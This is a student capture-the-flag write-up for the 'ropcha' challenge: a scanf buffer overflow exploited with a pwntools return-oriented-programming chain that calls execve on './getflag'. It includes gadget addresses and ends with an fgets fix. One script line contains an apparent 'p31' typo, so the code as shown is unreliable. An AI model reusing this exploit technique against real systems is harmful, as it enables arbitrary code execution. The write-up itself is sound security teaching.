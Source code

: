 ropcha
==============

Overview
--------
The given program protects a file containing the flag by only printing its content if the user manages to insert 100000000 random ascii captchas in 5 seconds.

Vulnerability
-------------
Before the start of the captcha challenge the program prompts the user for his or her name and stores that input in a buffer to display a personalised welcome message containing that name. For reading the input `scanf` is used which does not do any length checks. This leaves the door open for buffer overflow attacks.

Exploitation
------------
Since the this challenge was about return oriented programming I knew that I had to get some gadgets so I took a look at `file ./ropcha` and found that it was statically linked. Next I got myself a list of all the available gadgets by calling `ROPgadget --binary ./ropcha > gadgets.txt`. After reading the provided documentation about syscalls and the `execve` call I had a general shape in mind of what I had to do to the `getflag`. First I had to fill some registers by putting the needed value on the stack preceded by the address of a gadget that would pop that value into the register. I tried a little and found that doing this was easy but there was still an unanswered question. Where should I put the string with the executables file name and how can I get this locations address which would go into the ebx register. I remembered the tutorial from class and how Marco was able to change the contents of a global variable so I looked at his writeup on github and basically mirrored his approach with the biggest difference being that I had to do so multiple times since the value I wanted to write was larger than four bytes. So I found myself the address of a global char buffer which was large enough to hold my string by calling `objdump -D ./ropcha | grep -E "<msg_ok>"` and greped for some more gadgets. The rest was just concatenating the payload together in a way that would first write the file name to said location, pop the syscall arguments into the right registers and then make the syscall.  

Here is my exploit script:
    #!/usr/bin/python2
    import sys
    from pwn import *


    str_loc = 0x080f1230
    null = p32(0x00000000)
    call_code = p32(0x0000000b)

    pop_eax = p32(0x080bd8c6)
    pop_ebx = p32(0x080481d1)
    pop_edx = p32(0x0806f6bb)
    pop_edx_ecx_ebx = p32(0x0806f6e1)
    mov_ptr_edx_eax = p32(0x08057755)
    syscall = p31(0x080499d3)

    payload = 'A'*28 \
                + pop_edx + p32(str_loc) \
                + pop_eax + './ge' \
                + mov_ptr_edx_eax \
                + pop_edx + p32(str_loc + 4) \
                + pop_eax + 'tfla' \
                + mov_ptr_edx_eax \
                + pop_edx + p32(str_loc + 8) \
                + pop_eax + 'g\0\0\0' \
                + mov_ptr_edx_eax \
                + pop_eax + call_code \
                + pop_edx_ecx_ebx + null + null + p32(str_loc) \
                + syscall


    def main():
        if len(sys.argv) > 1:
            r = remote('10.3.0.5', 31337)
        else:
            r = process("./ropcha")
        r.sendline(payload)
        r.interactive()


    if __name__ == '__main__':
        main()

And here are the notes I took while searching for gadgets:

    0x080bd8c6 : pop eax ; ret
    0x080481d1 : pop ebx ; ret
    0x0806f6bb : pop edx ; ret
    0x0806f6e1 : pop edx ; pop ecx ; pop ebx ; ret
    0x080499d3 : int 0x80
    0x08057755 : mov dword ptr [edx], eax ; ret

    080f1120 <msg_error>
    080f1160 <msg_banner>
    080f11ec <msg_name>
    080f1200 <msg_numcaptcha>
    080f1218 <msg_question>
    080f1230 <msg_ok>
    080f1240 <msg_nope>
    080f1260 <msg_welldone>
    080f12a0 <msg_fail>

Solution
--------
Instead of `scanf` `fgets` should be used to read the user input since the latter only writes as many bytes as it's second argument specifies. Another option would be to not personalise the message so the program doesn't write any user input in a potentially overflowing buffer. In both cases the ability to write arbitrary things onto the stack would be cut out of the program.
